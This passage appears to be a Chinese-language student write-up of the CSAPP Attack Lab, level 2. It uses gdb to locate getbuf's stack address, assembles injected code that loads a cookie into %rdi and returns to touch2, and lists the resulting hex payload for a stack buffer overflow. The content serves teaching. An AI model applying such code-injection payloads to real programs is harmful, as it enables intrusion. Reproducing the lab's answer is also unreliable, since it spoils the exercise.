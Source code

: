 所以整个流程为：getbuf的ret->movq $0x59b997fa,%rdi->jmp &touch2()

接下来操作：
通过getbuf传入的数据的首地址为getbuf<+4>处rsp的值，因此我们查看。


```markdown
root@cc661f098d2e:/csapp/3attack# gdb ctarget
(gdb) break getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) run -q -i exploit.txt
(gdb) nexti
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret    
End of assembler dump.
(gdb) info r rsp
rsp            0x5561dc78          0x5561dc78
```
其中run -q -i exploit.txt的exploit.txt的文件名和内容任意，但是必须要有-i<file>作为输入，否则run -q运行时会报错，导致rsp获取不准。
综上，getbuf的ret应为0x5561dc78，易得touch2的地址为0x4017ec。由于文档不建议使用jmp指令我们需将其拆解为，建立一个example.s文件，在里面输入：
```markdown
movq $0x59b997fa,%rdi
pushq $0x4017ec
ret
```
在终端执行
```markdown
root@cc661f098d2e:/csapp/3attack# gcc -c example.s
root@cc661f098d2e:/csapp/3attack# objdump -d example.o > example.d
```
得到example.d文件，查看
```markdown
0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    
```
因此注入字符转16进制后为
```markdown
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00       
00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00  
78 dc 61 55  
```
后续操作与leve1相同，不赘述。
![l3c2](https://img-blog.csdnimg.cn/35470d307cad4a6789a85bbc5117c69e.jpeg)
